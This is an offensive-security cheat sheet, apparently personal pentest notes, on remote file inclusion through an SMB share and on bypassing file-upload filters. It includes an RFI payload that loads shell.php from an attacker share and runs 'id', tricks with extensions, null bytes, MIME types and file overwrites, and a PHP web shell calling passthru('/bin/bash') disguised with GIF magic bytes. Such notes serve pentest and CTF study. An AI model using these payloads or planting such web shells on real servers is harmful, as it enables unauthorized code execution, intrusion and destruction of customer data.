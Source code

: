 1. start a impacket smb server and if target is windows this is helpful

2. we can directly include it as an smb share

?param=\\ipaddress\sharename\shell.php&cmd=id



# FIle uploads attacks

try different extensions like .pHp,.php5,.phtml etc 
there are diffferent extensions for single technology


If server is using php version 5 or less then we can bypass extension check simply by appending null byte with the .php extension

#### Overwriting existing files

If we know that image with a name is being stored for example in images/example.jpg then we can try to upload file of our own choice with same name and upload it.If its vulnerable than our image will replace the old one .This leads to data loss of customers


#### File type validation

  ##### Mime bypass   

     mime-type shows us content type inside a file regardless of its extension,we can change this and trick the server

     we can check a file content type by following

> file --mime-type filname.extension

     sometimes try changing the content type in burp because servers verify sometimes from there

     for example we can change the application/x-php to image/jpeg if server accepts images etc


   ##### Tampering Magic Bytes

we can change header bytes of a file which will make it look like a filetype of entered magic bytes. 

we can find most useful file headers here

- https://en.wikipedia.org/wiki/List_of_file_signatures
If a jpg file is allowed and extension changing is not successful ,then we can add jpg magic bytes at the start of our malicious file which will make the file behave as jpg

For example we have a exploit.php with contents
````````php

<?php
passthru("/bin/bash");
?>
````````

Server will detect this as a php file because of its header. We can add magic byte of jpg `ÿØÿî` or of gif `GIF87a`. So the code becomes
``````php

GIF87a;
<?php
passthru("/bin/bash");
?>
``````
